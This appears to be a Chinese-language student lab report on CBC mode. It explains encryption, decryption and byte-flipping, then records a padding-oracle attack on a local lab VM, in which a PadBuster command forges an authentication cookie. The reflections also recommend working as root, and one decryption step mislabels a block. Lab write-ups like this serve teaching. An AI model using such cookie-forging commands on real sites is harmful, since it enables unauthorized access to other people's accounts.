

# Cipher Block Chaining (CBC)

## 实验环境

`Ubuntu 20.04`

`Vscode remote`

## 实验原理

基于分组加密

### 加密过程

1. 将要CBC加密的数据分为N个块,每个块为16字节
2. 随机找一个IV(初始向量),大小为每个块的大小(16字节),用于与第一个块进行异或运算
3. 将异或运算的结果进行选定的加密方式进行加密
4. 将得到的第一块密文与第二块明文进行异或运算
5. 将异或运算的结果进行选定的加密方式进行加密
6. 将得到的第二块密文与第三块明文进行异或运算
7. 将异或运算的结果进行选定的加密方式进行加密
8. 最后得到三块加密获得的密文
   
### 解密过程

1. 将已经CBC加密的数据分为N个块,每个块为16字节
2. 将第一块加密的数据用选定的加密方式解密
3. 找到加密时的IV,用于与第一个解密后的块进行异或运算,得到第一块的明文
4. 将第二块加密数据进行解密
5. 用第一块加密的密文与第二块解密的块进行异或运算,得到第二块的明文
6. 将第三块加密的数据进行解密
7. 用第二块加密的数据与第三块解密的块进行异或运算,得到第二块的明文

通过上述的解密过程可以推算出:

如果要修改第二个块中的第n个字节的数据,只要修改第一块数据的密文中的第n个字节数据,这样第一个块的密文与第二个块解密得到的数据进行异或运算时就可以得到自己想要的数据，对第三个块及其以后的数据都不会产生影响(因为与下一块进行异或运算的都是加密的数据,第二块的加密数据没有进行改变),但是第一个块修改了加密数据,进行解密和与IV异或运算后会产生错误数据。

以此类推,如果要修改第三块中的数据,就修改第二块的加密信息,会产生错误数据的只有第二块数据,其他块的数据不会产生错误。

如果要修改第一块的数据的话,只能修改第一块密文,这需要知道IV是什么,过程:

1. 将第一块的明文修改成想要的数据
2. 将修改完的数据与IV进行异或运算,然后进行选定方式的加密,得到密文数据
3. 将第一块的密文数据换成的到的密文数据
   
## CBC模式特点

明文分组在加密之前一定会与“前一个密文分组”进行XOR运算，因此即使明文分组1和明文分组2的值是相等的，密文分组1和2的值也不一定是相等的。这样一来，ECB模式的缺陷在CBC模式中就不存在了。

加密过程：在CBC模式中，无法单独对一个中间的明文分组进行加密。

解密过程：假设CBC模式加密的密文分组中有一个分组损坏了。在这种情况下，只要密文分组的长度没有发生变化，则解密时最多只有2个分组受到数据损坏的影响。

假设CBC模式的密文分组中有一些比特缺失了，那么此时即便只缺失1比特，也会导致密文分组的长度发生变化，此后的分组发生错位，这样一来，缺失比特的位置之后的密文分组也就全部无法解密。

### 对CBC模式的攻击

假设主动攻击者的目的是通过修改密文来操纵解密后的明文。如果攻击者能够对初始化向量中的任意比特进行反转（将1变成0，将0变成1），则明文分组中相应的比特也会被反转。这是因为在CBC模式的解密过程中，第一个明文分组会和初始化向量进行XOR运算。但是想对密文分组也进行同样的攻击就非常困难了。例如，如果攻击者将密文分组1中的某个比特进行反转，则明文分组2中相应比特也会被反转，然而这一比特的变化却对解密后的明文分组1中的多个比特造成了影响，也就是说，只让明文分1中所期望的特定比特发生变化是很困难的。

### CBC模式应用

确保互联网安全的通信协议之一SSL/TLS，就是使用CBC模式来确保通信机密性的，如使用CBC模式三重DES的3DES_EDE_CBC以及CBC模式256比特AES的AES_256_CBC等。

## 实验过程

### 搭建环境


### 实验

注册并登录，获取 Cookie


获取工具，安装依赖

```
git clone https://github.com/AonCyberLabs/PadBuster.git
cd PadBuster

perl -MCPAN -eshell
cpan> install Bundle::LWP
sudo apt-get install libcrypt-ssleay-perl
```
使用 PadBuster 进行自动化漏洞利用

`perl padBuster.pl http://192.168.56.104/index.php z5MVIy4fwGHNhLvkPbf0Og==  --cookies auth=z5MVIy4fwGHNhLvkPbf0Og== -encoding 0`


生成的密文即 Cookie ，利用浏览器的开发者工具修改 Cookie ，认证成功


## 实验思考 

1. 要时刻打开新建的虚拟机，这样才不会出现网页无法打开的情况。

2. 修改cookie后刷新网页即可实现重新登陆。

3. 由于开发的过程中需要频繁修改各种conf文件，或者修改/usr文件夹中的文件，所以管理员权限下的sudo显然无法满足我们的需求，我们需要建立root账户，以便我们开展以后的工作。

4. Ubuntu中，测试系统是32位还是64位有两个方法：

1,Terminal里输入 uname -m 返回i686即为32位系统，返回x86_64即为64位系统；

2,Terminal里输入 getconf LONG_BIT,这个命令是返回系统中long型数据的长度，若返回32即为32位系统，64即为64位系统。

## 参考文献

- [Ubuntu下密码学开发环境搭建](https://blog.csdn.net/liuweiran900217/article/details/24043975)

- [搭建环境](http://courses.cuc.edu.cn/course/87823/learning-activity#/368311)

- [国内镜像](https://mirrors.tuna.tsinghua.edu.cn/help/CPAN/)

- [依赖替代](https://cloud.tencent.com/developer/ask/sof/1964986)